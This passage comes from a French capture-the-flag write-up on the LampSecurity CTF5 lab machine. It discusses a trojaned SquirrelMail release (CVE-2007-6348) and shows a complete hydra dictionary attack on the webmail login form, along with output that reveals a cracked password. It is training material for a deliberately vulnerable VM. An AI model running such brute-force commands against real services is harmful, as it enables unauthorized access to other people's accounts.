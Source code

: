Argh! Cet exploit n'est pas valable pour la version de phpMyAdmin installée sur le serveur LampSecurity CTF5... et les deux autres exploits listés non plus. Next!

### SquirrelMail - Attaque par dictionnaire

Le webmail SquirrelMail est également présent sur le serveur, dans sa version 1.4.11-1.fc8... et visiblement, 
[il y a eu du rififi](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html) ~~et Loulou~~ avec cette version. 
La [CVE-2007-6348](https://nvd.nist.gov/vuln/detail/CVE-2007-6348) décrit la vulnérabilité comme suit : « _SquirrelMail 1.4.11 and 1.4.12, as distributed on sourceforge.net before 20071213, has been externally modified to create a Trojan Horse that introduces a PHP remote file inclusion vulnerability, which allows remote attackers to execute arbitrary code_ ».

* [Re: SECURITY: 1.4.12 Package Compromise](https://lwn.net/Articles/262691/)
* [SquirrelMail 1.4.13 Released](http://jon.netdork.net/2007/12/14/squirrelmail-1413-released/)
* [SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119756462212214&w=2)
* [Re: SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119765235203392&w=2)
* [squirrelmail 1.4.11 and 1.4.12 are compromised](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html)
* [What's interesting to me about SquirrelMail attack](http://www.syntaxpolice.org/2007/12/)

De plus, les exploits répertoriés sur [The Exploit Database](https://www.exploit-db.com/search/?action=search&q=SquirrelMail) ne manquent pas, mais la plupart d'entre eux nécessitent un accès authentifié et ne sont pas applicables pour la version 1.4.11. Cinq utilisateurs ont été trouvés grâce à la _Local File Inclusion_ d'index.php, autant se focaliser sur eux et essayer de trouver leur mot de passe. Le wiki [SkullSecurity](https://wiki.skullsecurity.org/Passwords) propose un large panel de dictionnaires : le premier à être utilisé (au nom particulièrement évocateur) est 500-worst-passwords.txt.

```console
root@blinils:~# hydra -l amy -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 http-post-form 
"/mail/src/redirect.php:js_autodetect_results=1&just_logged_in=1&login_username=^USER^&secretkey=^PASS^:Unknown user" -t 10 -V

--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 500 login tries (l:1/p:500), ~50 tries per task
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pussy" - 5 of 500 [child 4] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "12345" - 6 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "dragon" - 7 of 500 [child 6] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "qwerty" - 8 of 500 [child 7] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "696969" - 9 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "mustang" - 10 of 500 [child 9] (0/0)
--snip--
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "sandra" - 360 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pookie" - 361 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "packers" - 362 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "einstein" - 363 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "dolphins" - 364 of 500 [child 2] (0/0)
[80][http-post-form] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-02 03:04:05
``` 
